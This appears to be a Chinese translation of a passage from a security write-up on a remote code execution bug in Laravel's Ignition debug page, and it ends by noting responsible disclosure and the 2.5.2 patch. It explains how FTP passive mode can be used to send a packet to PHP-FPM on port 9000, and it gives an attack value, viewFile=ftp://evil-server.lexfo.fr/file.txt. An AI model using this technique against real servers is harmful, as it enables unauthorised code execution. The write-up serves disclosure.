 ![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0DMibZdYtRkibN9E7M48U2icHiaOagYZPKwISGyfmZ3oXmcgBBGOZ3icAB9FSEuIQtFcmINRc4iab7K14Q/640?wx_fmt=png)

As an exploit:

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0DMibZdYtRkibN9E7M48U2icH9veUIUbOZT6D1IR5PMAXF5X4iaQficKqmZsS6NtDtFNtiarA4Nju5Jhlw/640?wx_fmt=png)

在确认了本地环境下的攻击后，我们继续在目标上进行测试，但没有成功。日志文件有一个不同的名字。在花了几个小时试图猜测它的名字后，我们猜不出来，于是只好实施另一种攻击。我们也许应该提前检查一下。

用 FTP 与 PHP-FPM 对话

由于我们可以运行 file_get_contents 来查找任何东西，我们可以通过发出 HTTP 请求来扫描常用端口。PHP-FPM 似乎在 9000 端口上监听。

众所周知，如果你能向 PHP-FPM 服务发送一个任意的二进制数据包，你就可以在机器上执行代码。这种技术经常与 gopher:// 协议结合使用，curl 支持 gopher:// 协议，但 PHP 不支持。

另一个已知的允许你通过 TCP 发送二进制数据包的协议是 FTP，更准确的说是它的被动模式：如果一个客户端试图从 FTP 服务器上读取一个文件（或写到），服务器可以告诉客户端将文件的内容读取（或写）到一个特定的 IP 和端口上。这些 IP 和端口可以是什么，没有限制。例如，服务器可以告诉客户机连接到自己的一个端口，如果它愿意的话。

现在，如果我们尝试使用 viewFile=ftp://evil-server.lexfo.fr/file.txt 来利用这个漏洞，会发生以下情况。

file_get_contents() 连接到我们的 FTP 服务器，并下载 file.txt。

file_put_contents() 连接到我们的 FTP 服务器，并将其上传到 file.txt。

你可能知道这是怎么回事：我们将使用 FTP 协议的被动模式使 file_get_contents() 在我们的服务器上下载一个文件，当它试图使用 file_put_contents() 把它上传回来时，我们将告诉它把文件发送到 127.0.0.1:9000。

这样我们就可以向 PHP-FPM 发送一个任意数据包，从而执行代码。

这一次，在我们的目标上成功地进行了利用。

我们在 2020 年 11 月 16 日在 GitHub 上向 Ignition 的维护者报告了这个 bug 以及一个补丁，第二天就发布了一个新的版本（2.5.2）。由于它是 Laravel 的一个 require-dev 依赖，我们希望在这个日期之后安装的每个实例都是安全的。

参考文献：

https://www.ambionics.io/blog/laravel-debug-rce